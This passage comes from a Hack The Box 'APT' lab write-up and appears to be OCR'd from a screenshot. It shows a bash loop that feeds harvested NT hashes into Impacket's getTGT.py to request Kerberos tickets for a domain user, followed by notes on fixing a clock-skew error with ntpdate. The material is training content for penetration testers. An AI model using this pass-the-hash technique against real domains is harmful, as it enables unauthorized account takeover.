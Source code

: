 ┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(cat nt\_hashes\);do getTGT.py -hashes x -dc-ip apt.htb.local htb/henry.vinson 2&gt;/dev/null;done Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

not enough values to unpack \(expected 2, got 1\)

```text
I used some bash magic to run the same command for each line in my `nt_hashes` file.  It started giving a bunch of errors for all of the lines that didn't have both halves of the hash (this script from Impacket expects both halves)
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ for x in $\(cat test\);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson;done  
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\)

```text
I pulled out one of the hashes and tried it with just one that was in the right format, but this time I got an error that said my clock was too far off the DC

* https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast

> If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it because of your local time, you need to synchronise the host with the DC: ntpdate `<IP of DC>`

I had to install `ntpdate`
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ sudo ntpdate apt.htb.local 1 ⨯ 29 Mar 23:07:02 ntpdate\[794852\]: no server suitable for synchronization found

```text
After playing with my system time, I realized that it never jumped forwards for daylight savings time...
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ sudo ntpdate pool.ntp.org 1 ⨯ 29 Mar 23:14:48 ntpdate\[842178\]: step time server 194.36.144.87 offset -3599.289748 sec

```text
I simply synced it with a known good ntp server (Note: I realised that I had to change my system clock for another HTB machine in the past (find name and link) so this was just reverting it...)
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ date Tue 30 Mar 2021 12:17:39 AM EDT

```text
I still had the same problem... my VM reported one time, but the terminal reported another... the date command was way off for some reason

https://github.com/byt3bl33d3r/CrackMapExec/issues/339

The next day, it was magicly working. I didn't restart the system or anything (I had actually only paused the vm)
```
